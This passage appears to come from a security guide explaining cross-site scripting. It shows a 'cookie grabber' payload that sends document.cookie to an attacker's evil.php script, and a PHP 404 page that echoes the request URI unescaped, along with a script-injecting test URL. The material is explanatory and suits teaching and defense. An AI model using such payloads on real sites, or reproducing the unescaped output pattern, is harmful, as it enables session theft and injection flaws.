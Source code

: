#### Attack Examples <a id="attack-examples"></a>

**Example 1: Cookie Grabber**

If the application doesn’t validate the input data, the attacker can easily steal a cookie from an authenticated user. All the attacker has to do is to place the following code in any posted input\(ie: message boards, private messages, user profiles\):

```text
<SCRIPT type="text/javascript">
var adr = '../evil.php?cakemonster=' + escape(document.cookie);
</SCRIPT>
```

The above code will pass an escaped content of the cookie \(according to RFC content must be escaped before sending it via HTTP protocol with GET method\) to the evil.php script in “cakemonster” variable. The attacker then checks the results of his evil.php script \(a cookie grabber script will usually write the cookie to a file\) and use it.

#### Error Page Example <a id="error-page-example"></a>

Let’s assume that we have an error page, which is handling requests for a non existing pages, a classic 404 error page. We may use the code below as an example to inform user about what specific page is missing:

```text
<html>
<body>

<? php
print "Not found: " . urldecode($_SERVER["REQUEST_URI"]);
?>

</body>
</html>
```

Let’s see how it works:

```text
http://testsite.test/file_which_not_exist
```

In response we get:

```text
Not found: /file_which_not_exist
```

Now we will try to force the error page to include our code:

```text
http://testsite.test/<script>alert("TEST");</script>
```

The result is:

```text
Not found: / (but with JavaScript code <script>alert("TEST");</script>)
```

We have successfully injected the code, our XSS! What does it mean? For example, that we may use this flaw to try to steal a user’s session cookie.

